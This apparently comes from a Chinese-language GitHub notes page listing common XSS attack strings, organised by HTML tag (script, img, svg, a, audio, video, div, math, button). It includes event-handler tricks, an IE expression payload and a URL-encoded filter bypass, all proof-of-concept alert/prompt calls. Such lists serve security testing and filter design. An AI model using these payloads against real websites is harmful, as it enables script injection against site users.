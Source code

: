 ## 常用攻击语句

一般会借助HTML标签的一些触发事件来执行攻击脚本。

- **script标签**

  在 HTML 页面中插入一段 JavaScript：

  `<script>alert(1)</script>`

- **img标签**

  img标签支持 **onerror** 事件属性，在装载文档或图像的过程中如果发生了错误，就会触发**onerror**事件。利用**onerror**的特性来完成XSS。

  ```html
  <img src=x onerror=alert(1)>
  <img src=x onerror=javascript:alert(1)>
  ```

- **svg标签**

  svg标签支持 **onload** 时间属性，页面结束加载之后触发。

  `<svg onload=alert(1)>`

- **超链接标签**

  解析href所指链接，此处作用是发生动作时执行一段javascript代码。

  `<a href=javascript:alert(1)></a>`

- **audio标签**

  ```html
  <audio src=x onerror=alert(1)>
  <audio src=1 href=1 onerror="javascript:alert(1)"></audio>
  ```

- **video标签**

  `<video src=x onerror=prompt(1);>`

- **div标签**

  ```html
  <div style="width:expression(alert(/1/))">1</div>     ie浏览器执行
  <div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>   url编码绕过
  ```

- **math标签**

  ```html
  <math><a/xlink:href=javascript:prompt(1)>Xss
  <math href="javascript:javascript:alert(1)">Xss</math>
  ```

- **button标签**

  ```html
  <button onfocus=alert(1) autofocus>
  <button/onclick=alert(1) >xss</button>
  ```
